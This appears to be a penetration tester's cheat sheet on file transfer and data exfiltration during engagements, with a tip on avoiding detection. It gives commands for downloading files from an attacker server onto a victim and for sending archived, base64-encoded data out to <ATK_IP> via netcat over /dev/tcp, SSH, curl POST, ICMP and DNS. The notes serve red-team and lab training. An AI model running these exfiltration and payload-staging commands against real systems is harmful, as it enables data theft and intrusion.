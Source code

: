 For the sake of example, everything labeled as a "task" can be considered the data being exfiltrated. 

> [!danger] Detection Risk
> Don't burn important host IPs onto a blacklist trying to download autopwn.exe or something stupid. Be cognizant of your situation, and act accordingly. Run stuff by more senior teammates if you don't know for sure. 

[[#File Transfers]] are TO a target machine, [[#Exfiltration]] is FROM a target machine. 

# File Transfers
## HTTP
On the attacker machine:
```shell
python -m SimpleHTTPServer <portno> # Start a python 2 http server in cwd
python3 -m http.server <portno> # start a python3 http server in cwd
```

On the victim machine:
```bash
(Linux)
wget http://<attackerIP>:<portno>/FileToTransfer
curl -o <outfile> http://<attackerIP>:<portno>/FileToTransfer
```


```powershell
(Windows)
# Curl
curl http://<attackerIP>:<portno>/FileToTransfer -o <outfile>

# Wget
wget http://<attackerIP>:<portno>/FileToTransfer

# Certutil
certutil.exe -urlcache -f http://<attackerIP>/FileToTransfer <outfile>

# Powershell
Invoke-WebRequest -Uri "http://<attackerIP>:<portno>/FileToTransfer" -OutFile <outfile>
```

## SMB
```shell
impacket-smbserver -smb2support -username <user to auth> -password <password to auth> <share name> <share location> # Open an SMB share serving <share location> as <share name>
```

Here you can use File Explorer or [[net]] on Windows to map the drive and [[SMBClient]] on Linux. 
## Client Side

# Exfiltration
## Raw TCP Sockets
[[Netcat]] Example Command: 
```shell
nc -lvp 8080 > /tmp/task4-creds.data # Receive
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/<ATK_IP>/8080 # Send
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar # Recombine
tar xvf task4-creds.tar # Decompress
```

## SSH
```shell
tar cf - task5/ | ssh thm@<ATK_IP> "cd /tmp/; tar xpf -" # On victim machine
```

## HTTP
```shell
curl --data "file=$(tar zcf - task6 | base64)" http://<ATK_IP>/bogus.php
```
This will leave the data base64 encoded in apache's access.log. 
[[Neo-reGeorg]]

## ICMP
Ping has a data section we can use for exfil. Also see [[ICMPdoor]] for ICMP C2. 

## DNS
Add data as TXT record on a DNS server and retrieve with dig. [[Iodined]] for C2.
